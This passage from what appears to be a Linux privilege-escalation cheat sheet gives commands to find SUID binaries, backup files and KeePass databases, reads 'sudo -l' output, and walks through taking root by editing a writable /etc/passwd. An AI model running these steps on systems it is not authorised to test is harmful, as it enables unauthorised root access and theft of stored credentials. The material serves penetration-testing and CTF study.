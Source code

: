 ```
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -4000 2>/dev/null

[Both commands search for SUID binaries starting at the root directory]
```
You should check found SUID binaries using [GTFObins](https://gtfobins.github.io/) to see
if there are any existing ways to exploit the binary for file read/write or gaining a root
shell.

### Find Files Containing Sensitive Information
You can search for files that may contain sensitive information using commands like:

```
find / -name "*.bak" 2>/dev/null
[Searches for backup files]

find / -name "*.kdbx" 2>/dev/null
[Searches for KeePass Password Manager database files containing passwords]
```

### Check SUDO Privileges
You can check your sudo privileges using the command: `sudo -l`\
This may require the user's password to be entered before it displays any information.

Key features to look out for:
    `NOPASSWD`      This means no password is required to run the presented commands using sudo.
    `(ALL : ALL)`   This means that the user can run all commands using sudo.

You should check binaries that you can run as sudo against [GTFObins](https://gtfobins.github.io/) to see if there are any exploits you can use to gain a root shell.

### Writable /etc/passwd File
If you have the permissions to write to the `/etc/passwd` file, you can set the password 
of the root user by generating a password hash using `openssl`.

```
Exploiting Writable /etc/passwd:

1. Check /etc/passwd permissions

    ls -l /etc/passwd

If the output looks like this, then it can be exploited:
    -rw-r--rw- 1 root root 4.2K Nov 20 15:08 /etc/passwd
            ^
        User writable

2. Generate a new password hash
    openssl passwd -1 <password>

3. Open the /etc/passwd file in a text editor like nano

4. Replace the 'x' in the root user line with the password hash
    root:x:0:0:root:/root:/bin/bash
         ^
     Hash here

5. Save the file

6. Run the command 'su root'

7. Enter the password you chose and you should be logged in as root
```
